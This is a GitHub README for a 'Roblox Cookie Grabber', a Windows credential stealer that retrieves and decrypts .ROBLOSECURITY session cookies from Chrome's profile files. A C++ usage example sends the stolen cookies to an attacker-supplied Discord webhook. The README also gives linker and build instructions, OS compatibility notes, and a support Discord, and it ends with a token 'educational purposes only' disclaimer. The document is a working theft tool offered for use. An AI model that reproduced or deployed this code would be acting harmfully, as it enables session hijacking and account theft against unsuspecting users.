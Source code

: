 # 🟩 Roblox Cookie Grabber 🟩 <a href="https://github.com/yurtrimu/roblox-cookie-grabber/actions/workflows/main.yml"><img src="https://github.com/yurtrimu/roblox-cookie-grabber/actions/workflows/main.yml/badge.svg?branch=main" alt="Working"></a>

## **Retrieval and decryption of the roblox's .ROBLOSECURITY cookies from chromium browsers. Based on chromium-stealer project.**

# Questions?
### - **I gladly answer your questions on the [discord server](https://discord.gg/QBhFd2aK4r).**

## Usage

```cpp
#include "webhook.hpp"
#include "cookiestealer.hpp"

std::string webhook_url = "YOUR WEBHOOK";

int main()
{

    if (!utils::console::is_windows()) { printf("The operating system has to be Windows NT\n"); exit(EXIT_FAILURE); }

    if (!utils::console::set_utf8()) { printf("Couldn't set console IO to utf8 encoding.\nConsole IO could show gibberish texts.\n"); }

    std::string Local_State_Path = "Google\\Chrome\\User Data\\Local State";
    std::string Database_Path = "Google\\Chrome\\User Data\\Default";

    CookieStealer stealer(Local_State_Path, Database_Path);
    stealer.initialize();

    std::stringstream ss; ss << "## **Roblox Cookies**\n"; ss << "-# .ROBLOSECURITY\n";

    for (const std::string &data : stealer.get_roblox()) {
        ss << "```" << data << "```\n";
    }

    curl_global_init(CURL_GLOBAL_ALL);

    struct discord_webhook webhook;
    webhook.avatar = "https://cdn.discordapp.com/avatars/607980985388105739/a_242b16cd46d4a14361822aa0b878e365.png";
    webhook.name = "Beamed by YURTRIMU";
    webhook.url = webhook_url;
    webhook.message = ss.str();

    std::string response;
    if (send_webhook(webhook, response)) { printf("Webhook successfully sent %zu length of data.\n", webhook.message.length()); }

    curl_global_cleanup();
}
```

## Operating System
- **Below Windows 7 - 🟦 Untested**
- **Windows 7 - 🟦 Untested**
- **Windows 10 - 🟩 Working**
- **Windows 11 - 🟦 Untested**
- **Mac OS - 🟥 Not Working**
- **Linux - 🟥 Not Working**

## Requirements

**You need to have the OpenSSL library installed and linked to your compiler.**

- You could download the OpenSSL library from [OpenSSL website](https://www.openssl.org/source/).

**You need to have the CURL library installed and linked to your compiler ( _ STATIC _).**

- You could download the CURL library from [CURL website](https://curl.se/download.html).

## Linker
- **libcrypto.lib**
- **libssl.lib**
- **libcurl_a.lib**
- **crypt32.lib**
- **ws2_32.lib**
- **wldap32.lib**
- **normaliz.lib**

## Compiling

- **Build - 🟦 Untested**
- **Release - 🟩 Working**
- **C++17 or below - 🟦 Untested**
- **C++20 - 🟩 Working**

## Contributing

**Pull requests are welcome.**

## Legal Disclaimer
🟥 **The content provided is for educational and informational purposes only.** 🟥
